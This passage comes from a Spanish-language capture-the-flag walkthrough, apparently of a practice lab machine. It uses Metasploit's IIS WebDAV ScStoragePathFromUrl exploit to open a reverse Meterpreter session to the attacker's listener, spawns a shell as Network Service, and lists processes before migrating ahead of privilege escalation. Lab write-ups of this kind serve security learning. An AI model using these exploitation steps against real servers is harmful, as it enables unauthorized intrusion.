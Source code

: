 seleccionamos el exploit entonces:

> use exploit/windows/iis/iis_webdav_scstoragepathfromurl

con esto abrimos las opciones y agregamos el RHOSTS
```Python
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run

  [*] Started reverse TCP handler on 10.10.14.18:4444 
  [*] Trying path length 3 to 60 ...
  [*] Sending stage (180291 bytes) to 10.10.10.15
  [*] Meterpreter session 1 opened (10.10.14.18:4444 -> 10.10.10.15:1031) at 2019-10-21 20:12:40 -0400

  meterpreter >
```
listo, estamos dentro de meterpreter y se creo una session.

#### explotacion via metasploit

ahora vamos a sacar una shell interactiva con metasploit:

```Python
meterpreter > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 3388 created.
Channel 2 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

Procedemos a migrar proceso, para evitar error en la ejecución del exploit de escalamiento de privilegios. El proceso al cual se migrará, debe estar siendo ejecutado con los mismos privilegios que nuestro proceso actual, es decir, con cuenta de servicio de red (NT AUTHORITY\Network Service).
```Python
  meterpreter > ps

  Process List
  ============

  PID   PPID  Name               Arch  Session  User                          Path
  ---   ----  ----               ----  -------  ----                          ----
  0     0     [System Process]                                                
  4     0     System                                                          
  272   4     smss.exe                                                        
  324   272   csrss.exe                                                       
  348   272   winlogon.exe                                                    
  396   348   services.exe                                                    
  408   348   lsass.exe                                                       
  584   396   svchost.exe                                                     
  676   396   svchost.exe                                                     
  732   396   svchost.exe                                                     
  760   396   svchost.exe                                                     
  796   396   svchost.exe                                                     
  932   396   spoolsv.exe                                                     
  960   396   msdtc.exe                                                       
  1072  396   cisvc.exe                                                       
  1120  396   svchost.exe                                                     
  1168  396   inetinfo.exe                                                    
  1212  396   svchost.exe                                                     
  1332  396   VGAuthService.exe                                               
  1400  396   vmtoolsd.exe                                                    
  1456  396   svchost.exe                                                     
```